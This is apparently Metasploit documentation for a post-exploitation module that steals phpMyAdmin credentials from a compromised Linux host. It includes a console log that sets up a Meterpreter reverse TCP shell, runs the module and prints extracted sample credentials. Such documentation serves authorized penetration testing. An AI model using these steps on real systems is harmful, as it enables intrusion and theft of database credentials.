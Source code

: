 ## Description

This post module gathers PhpMyAdmin Creds from target Linux machine.

* https://www.phpmyadmin.net/downloads/ [Download URL]

## Verification Steps

1. Start `msfconsole`
2. Get a session
3. Do: `use post/linux/gather/phpmyadmin_credsteal`
4. Do: `set SESSION [SESSION]`
5. Do: `run`

## Scenarios

```
msf5 > use multi/handler
msf5 exploit(multi/handler) > set lhost 192.168.37.1
lhost => 192.168.37.1
msf5 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.37.1:4444 
[*] Sending stage (816260 bytes) to 192.168.37.226
[*] Meterpreter session 2 opened (192.168.37.1:4444 -> 192.168.37.226:34880) at 2018-09-06 08:49:52 -0500

meterpreter > background
[*] Backgrounding session 2...
msf5 exploit(multi/handler) > use post/linux/gather/phpmyadmin_credsteal 
msf5 post(linux/gather/phpmyadmin_credsteal) > set session 2
session => 2
msf5 post(linux/gather/phpmyadmin_credsteal) > run


PhpMyAdmin Creds Stealer!

[+] PhpMyAdmin config found!
[+] Extracting creds
[+] User: admin
[+] Password: acoolpassword
[*] Storing credentials...
[+] Config file located at /Users/space/.msf4/loot/20180907081056_default_192.168.37.226_phpmyadmin_conf_580315.txt
[*] Post module execution completed
msf5 post(linux/gather/phpmyadmin_credsteal) > 

```
